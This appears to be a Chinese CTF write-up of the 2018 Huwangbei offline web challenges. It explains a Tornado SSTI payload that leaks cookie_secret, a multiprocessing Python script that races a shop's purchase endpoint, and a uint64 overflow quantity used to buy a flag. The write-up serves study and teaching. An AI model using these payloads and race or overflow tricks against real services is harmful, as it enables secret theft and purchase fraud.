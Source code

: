 ## 2018 护网杯线下赛 Web 总结

周六虽然事情一堆，但是还是抽出了好几个小时看了看这次比赛的题目，不得不说学习到了很多知识。

解决的一个 Web 题目通常有三种方法：

- 根据你得积累，很快在浏览完 Web 全部功能后能确定具体的漏洞类型和漏洞点
- 模糊测试：Fuzz 任何可以用户可控的点，当然 fuzz  也是需要技巧和一定的 payload 积累
- 取一些关键词 Google，寻找相近的题目或者相关的研究

在我看来，如果一道题目涉及的姿势超出我的积累，也没有在有限的时间内被 FUZZ 出漏洞点，也没 Google 出来，那么这道题对我而言就算比较难的。这次比赛再次印证了开学大佬说的一句话：

```
                            入门 Web 挺容易的，但是精通挺难的~
```

这篇文章不仅仅总结题目本身的内容，也总结题目引申出的很多知识点，以供我更加全面的学习。

### Easy tornado

这次比赛 Web 题就只解决了这一道。

题目 GET 提交了 filename 和signature 参数，签名的计算方式如下：

```
md5(cookie_secret + md5(filename))
```

需要知道cookie_secret，如果出错，会跳转到下述链接：

```
http://117.78.27.209:32354/error?msg=%E7%AD%BE%E5%90%8D%E9%94%99%E8%AF%AF
```

可以注意到 msg 提交的参数被返回到页面！本题路径和第一个文件 render() 也提醒者攻击者，这里很可能存在SSTI注入问题！

虽然过滤了一堆字符，但是可以测试出 handler可用，读取 secret_cookie：

```
{{handler.settings}}
```

然后 `md5(cookie_secret + md5(filename))` 算出`/fllllllllllag`的hash即可 

更多SSTI研究，可以参考大佬的 SSTI 精华文章：

[https://portswigger.net/blog/server-side-template-injection](https://portswigger.net/blog/server-side-template-injection )

### Itshop

本题需要先买足够的大辣条，再用大辣条买足够的超级大辣条，再用超级大辣条买 flag即可。

#### （1）条件竞争

> “竞争条件”发生在多个线程同时访问同一个共享代码、变量、文件等没有进行锁操作或者同步操作的场景中。
>
> ——[Wikipedia-computer_science](https://en.wikipedia.org/wiki/Synchronization_)

开发者在进行代码开发时常常倾向于认为代码会以线性的方式执行，而且他们忽视了并行服务器会并发执行多个线程，这就会导致意想不到的结果。

线程同步机制确保两个及以上的并发进程或线程不同时执行某些特定的程序段，也被称之为临界区（critical section），如果没有应用好同步技术则会发生“竞争条件”问题。

更多的可以参考：

[Burp 测试发现条件竞争的步骤](http://www.freebuf.com/articles/network/107077.html)  （Intruder 多线程尝试）

[条件竞争绕过上传文件秒删](http://seaii-blog.com/index.php/2017/04/26/49.html)   （多进程上传 + 不断访问）

[Race Conditions/条件竞争](http://wiki.secbug.net/web_race-condtion.html)

此外，在二进制安全中也存在条件竞争。

贴出别人的利用条件竞争购买20个大辣条代码：

```python
import multiprocessing
from requests.exceptions import RequestException
from requests.adapters import HTTPAdapter
import re, os, json, requests, time
import traceback

def main():
    url = 'http://117.78.26.155:31358/buylt'
    cookie = '47c3b1ec-45d1-4b19-9bec-025a67e203b6'
    headers = {'Cookie':'go_iris_cookie='+ cookie}
    k = requests.post(url,headers=headers)
    print k.content

if __name__ == '__main__':
    results = []
    pool = multiprocessing.Pool(processes=20)
    for i in range(0xff):
        results.append(pool.apply_async(main,))
    pool.close()
    pool.join()
```

#### （2）golang的Web应用，uint64整数溢出 

[Golang StackOverFlow](https://stackoverflow.com/questions/34704843/golang-on-purpose-int-overflow?noredirect=1&lq=1)

各个类型取值范围

```
uint8  : 0 to 255 
uint16 : 0 to 65535 
uint32 : 0 to 4294967295 
uint64 : 0 to 18446744073709551615 
int8   : -128 to 127 
int16  : -32768 to 32767 
int32  : -2147483648 to 2147483647 
int64  : -9223372036854775808 to 9223372036854775807
```

购买 18446744073709551615/5 + 1 个超级大辣条，最后购买 flag 即可。

**如何判断目标网站是 Go 语言开发的？** 以后深入总结，占坑

**如何探测这个整数溢出点？**

这篇文章讲解的好：[https://xz.aliyun.com/t/2893#toc-15](https://xz.aliyun.com/t/2893#toc-15)

此时我们观察到我们可以控制批量购买的数量，不同数量的反馈是不同的，比如我购买 2 个，提醒的是大辣条数量不足，而购买 -1 个或者 99999999999999999999 则是数量非法，所以我们可以猜测题目使用 uint64 作为变量的类型。 

可以推测题目的逻辑如下：

```
var num uint
if num * 5 <= 大辣条数目 {
    辣条之王 += num
}
```

很明显存在着乘法上溢问题，如果我们构造 `num = 3689348814741910324`，经过测试可得 `num * 5 = 4`，`4 <= 5` 成立

**以后将整数用于交易的点，都可以尝试整数溢出 FUZZ**。

关于整数的异常情况主要有三种： 

- 溢出
  - 只有有符号数才会发生溢出。有符号数最高位表示符号，在两正或两负相加时，有可能改变符号位的值，产生溢出
  - 溢出标志 `OF` 可检测有符号数的溢出
- 回绕
  - 无符号数 `0-1` 时会变成最大的数，如 1 字节的无符号数会变为 `255`，而 `255+1` 会变成最小数 `0`。
  - 进位标志 `CF` 可检测无符号数的回绕
- 截断
  - 将一个较大宽度的数存入一个宽度小的操作数中，高位发生截断

**其他整数溢出存在的点：**

[CVE-2017-7529 Nginx整数溢出漏洞分析](http://www.freebuf.com/articles/terminal/140402.html)

综合来看，这个漏洞就是整数溢出漏洞的利用，能够从Cache文件中获取Cache头的信息。在某些配置的情况下Cache头中会存在IP地址信息，造成信息泄露。

就Nginx模块以及常用的第三方模块本身来说，无法通过这个整数溢出来对内存进行操作或者远程执行。

存在问题的版本号：Nginx-1.12.0 

### easy web

fastjson 反序列化漏洞

### easy_laravel

分数最高的 Web 题，这题虽然涉及的面比较多，但是思路一环扣一环

[本题比较好的解答](http://skysec.top/2018/10/13/2018%E6%8A%A4%E7%BD%91%E6%9D%AF-web-writeup/)

### 参考writeup

[https://xz.aliyun.com/t/2897?from=timeline](https://xz.aliyun.com/t/2897?from=timeline)
